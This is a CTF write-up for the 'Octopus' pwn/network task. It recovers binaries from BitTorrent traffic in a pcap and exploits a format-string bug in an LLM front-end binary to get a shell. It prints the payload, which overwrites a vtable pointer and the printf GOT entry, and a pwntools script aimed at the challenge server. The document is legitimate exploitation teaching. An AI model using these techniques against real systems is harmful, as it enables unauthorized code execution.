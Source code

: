 ```yaml
---
layout: post
title:  "Alfa Surfing CTF 2025 - Octopus"
date:   2025-09-14 13:37:00 +0300
categories: ctf writeup
tags: pwn forensics network format-string
---
```


*Type: CTF task*

*Platform: Linux*

*Category: Pwn/Network*

*Idea: BTH to get binaries and pwn format string on server*

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/task_desc.png)

This is a network + pwn task from [Alfa Surfing CTF 2025](https://ctftime.org/event/2935). We have a pcap with some traffic.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/pcap_base.png)

So we need to filter TLS traffic and other stuff. And we get something like this. 

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/filtred_pcap.png)

Filter: 
```
!tls and (ip.addr != 217.12.104.100 and ip.addr != 91.206.127.56 and ip.addr != 216.58.211.228) && !dns
```

We see suspicios BT-DHT packets. This is Bittorent protocol. And after we see Bittorent hash (BTH).

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/bth_traffic.png)

And we can create a magnet link with this hash: `magnet:?xt=urn:btih:541dbfceb925d26c4f0f7687a9ad7bd0c1d9a7b5`
And just use any Bittorent client.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/magnet_link_download.png)

After downloading we need to analyze binaries. There is two binaries: server_with_pow.elf and run.elf.

**server_with_pow.elf**

It's just a simple TCP server that get string from client and calc MD5 hash.
Hash need to start with 21 zero bit.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/server_analyze.png)

If it's okay we run next binary `run.elf`.

**run.elf**

This binary provides us the interface to local LLM. 

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/run_elf_lama_show.png)

And we can choose the user. In banner.txt we see just two of three users. But in code we see another user `melloy`.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/run_elf_users.png)

And when we see how proceeded inputed string from user `melloy` we discover the format string vulnerablity in line 129.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/run_elf_format_string.png)

So we need to PWN it!

My idea of exploitation is about only binary pwn. But author solution use LLM to get shell.

First we need to check what is on stack after our format string bug was triggered.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/gdb_stack1.png)

And we see that we can addressing the stack where pointer to user object stored. 
And this pointer points to vtable of object. Function from vtable using after printf.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/vtable_usage.png)

And when we make checksec on binary we see that there is no PIE and partitial RELRO.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/checksec.png)

Let's check that GOT is writeable on debugger.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/perms_got.png)

So there is final idea of exploitation.

1. We overwrite data by pointer to Melloy object (which was vtable pointer) to offset in binary where address of `_start` placed. And it give us a cycle, after format string printing we run `_start` and `main` again.
2. We overwrite `printf` in GOT to `system` PLT. And this give us a shell, becase we call system on data that suppouse to be provided in printf.

See on the stack what happend after our overwriting.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/overwrite.png)

vtable is overwrited and we jump to `_start`

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/vtable_hit.png)

And after that we need to interact with process and type username and command after.

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/local_shell.png)


So final payload is 
```
"%34$n%4194328c%14$n%38488c%35$n_" + p64(0x703028 + 4) + p64(0x703028)
```


Exploit code:
```python
#!/usr/bin/env python3
from pwn import *


if __name__ == "__main__":
    #p = process('./run.elf')
    p = remote('46.62.167.155', 31337)

    p.recvline()
    p.sendline(b'7vfv')

    #gdb.attach(p, '''b *0x4250E3''')
    p.sendlineafter(b'<no user choosed\n', b'melloy')
    p.sendlineafter(b'<melloy\n', b"%34$n%4194328c%14$n%38488c%35$n_" + p64(0x703028 + 4) + p64(0x703028))

    p.interactive()
```

Run and get flag!

![](/assets/2025-09-15-Alfa-Surfing-CTF-2025-Octopus-Writeup/flag.png)



**Summary**: Thanks the author (@awengar) for the task. It was fun!
